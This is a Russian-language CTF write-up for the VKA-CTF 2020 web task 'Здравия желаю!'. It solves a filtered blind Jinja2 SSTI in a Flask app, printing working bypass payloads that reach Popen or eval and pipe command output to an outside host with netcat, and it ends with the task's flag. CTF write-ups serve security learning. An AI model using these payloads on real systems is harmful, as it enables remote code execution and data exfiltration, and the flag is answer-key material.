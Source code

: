 ## Здравия желаю!

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Здравия желаю! | Web | ВЫПУСК |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Начальник курса привык, что каждое утро его приветствуют подчиненные. Во время самоизоляции пришлось перестроиться на "удаленный" режим работы. И как же теперь жить без старых привычек? Все просто - задачу поставил, [результат](https://hello.vkactf.tk) получил. Вот насколько качественный - это уже другой вопрос.

### Решение

![](./imgs/1.PNG)

[Wappalyzer](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=ru) определил, что сервер написан на веб фреймворке [Flask](https://flask.palletsprojects.com/)

Также, мы видим, что сервер возвращает нам всё, что мы введём в параметр `rank`

Исходя из этого, можно предположить, что сервер уязвим для [SSTI](https://defcon.ru/web-security/3840/)

Попробовав некоторые нагрузки, сервер отвечал
```Здравия желаю, товарищ noname, не пытайся взломать меня :)!```

Скорее всего на сервере фильтруется параметр `rank` и многие нагрузки недоступны. Продолжаем искать

Введя 

```jinja2
{% if 'hack' == 'hack' %} jinja2 {% endif %}
```

сервер нам вернул `jinja2`

Это означает, что на сервере фильтруются `{{` и `}}`, следовательно мы не сможем ничего вернуть на страницу (**BLIND**)

Далее мы можем определить, какие символы нам доступны для проведения инъекции. Вместо `jinja2` в нашей нагрузке подставляем различные символы и понимаем, что нам доступны лишь кавычка, `(` и `)`

Нам не доступны такие объекты, как `self`, `config`, `request`, `url_for`, а также недоступен символ `_` , что очень сильно нас ограничивает

Нам доступны кавычки, а значит мы можем попробовать подняться до класса `object` 

Для реализации данной инъекции нам необходим символ `_`

Так как мы не можем напрямую ввести его, то попробуем найти его в каком-нибудь классе, с помощью фильтров `jinja2` преобразовать его в строку, затем в список, а после обратить к элементу списка, а именно к `_`

```python
obj|string|list[20]
```

Этот символ есть в объекте `lipsum`, но возникает проблема в обращении элементу списка, так как мы не можем использовать `[` и `]`

> Оказвается, вместо `_` можно было использовать `\137` (Решение игрока @exp101t)

У `jinja2` есть фильтр `random`, который возвращает случайный элемент списка. Таким образом мы можем получить символ `_` следующим способом (когда нам повезёт :) )

```python
lipsum|string|random
```

Так как нам недоступны символ точки и квадратных скобок, мы можем воспользоваться конструкцией ```|attr()```

Также, чтобы не использовать каждый раз объект `lipsum` создадим переменную

```jinja2
{% set x = lipsum|string|random %}
```

Исходя из вышесказанного и используя фильтр `|join` , можно сделать следующую замену

```python
''.__class__ -> ''|attr((x,x,'class',x,x)|join)
```

Теперь когда мы можем использовать `_` обратимся к элементу через метод `__getitem__(x)`

```python
[2] -> __getitem__(2)
```
Дойдя таким образом до класса `object` , необходимо найти класс `popen` . Так как мы работаем вслепую, можно отправлять запрос ниже с параметрами ```('ls',shell=True,stdout=-1)```

```python
''.__class__.__base__.__subclasses__()[<num>]('ls',shell=True,stdout=-1) -> ''|attr((x,x,'class',x,x)|join)|attr((x,x,'base',x,x)|join)|attr((x,x,'subclasses',x,x)|join)()|attr((x,x,'getitem',x,x)|join)(<num>)('ls',shell=True,stdout=-1)
```

Те классы, которые не ожидают этих параметров, сообщат об ошибке (в нашем случае - “noname, ты всё сломал”). Также не забываем, что сервер может вернуть ошибку, когда из `random` не выпал `_`

В моём случае безошибочно сработали числа 76, 84, 126, 145, 266, 401, 405

Теперь, когда мы “предположительно” можем выполнять команду на сервере, получим результат её выполнения через сторонний ресурс, использовав подключение по `nc`. Не забываем, что нам нельзя использовать точку, следовательно необходимо конвертировать ip адрес в десятичное представление, например [тут](https://www.browserling.com/tools/ip-to-dec)

Используем следующую  нагрузку для этого

```jinja2
{% set x=lipsum|string|random %}{% if ''|attr((x,x,'class',x,x)|join)|attr((x,x,'base',x,x)|join)|attr((x,x,'subclasses',x,x)|join)()|attr((x,x,'getitem',x,x)|join)(<num>)('ls | nc 134744072 9090',shell=True,stdout=-1)|attr('communicate')()|first|attr('strip')() == 'KRAUSE' %} a {%  endif %}
```

что соответствует нагрузке

```python
''.__class__.__base__.__subclasses__()[<name>]('ls | nc 8.8.8.8 9090',shell=True,stdout=-1).communicate()[0].strip()
```

**NOTE:** фильтр `|first` используется для обращения к первому элемент списка

На сервере открываем соединение и ждём подключения …

Когда подключение произойдёт сохраняем себе номер класса и радуемся, увидев результат выполнения команды

```bash
☁  ~  nc -nvlp 9090
Listening on [0.0.0.0] (family 0, port 9090)
Connection from xx.xx.xx.xx 19386 received!
app.py
flag
requirements.txt
```

Выполняем `cat flag` и получаем флаг)

-----
### Решение игрока @exp101t
Решить можно было и без брутфорса, например используя нагрузку 
```python
{% if lipsum|attr('\137\137globals\137\137')|attr('\137\137getitem\137\137')('\137\137builtins\137\137')|attr('get')('eval')('\137\137import\137\137("os")\56system("\154\163\40\174\40\156\143\40\70\56\70\56\70\56\70\40\71\60\71\60")') %} True {% else %} False {% endif %}
```
что соответствует нагрузке
```python
{% if lipsum.__globals__["__builtins__"].eval('__import__("os").system("ls | nc 8.8.8.8 9090")') %} True {% else %} False {% endif %}
```
---

**Флаг:**

> vka{cr4zy_byp455_5571_f1l73r5_my_c0n6r47ul4710n5}
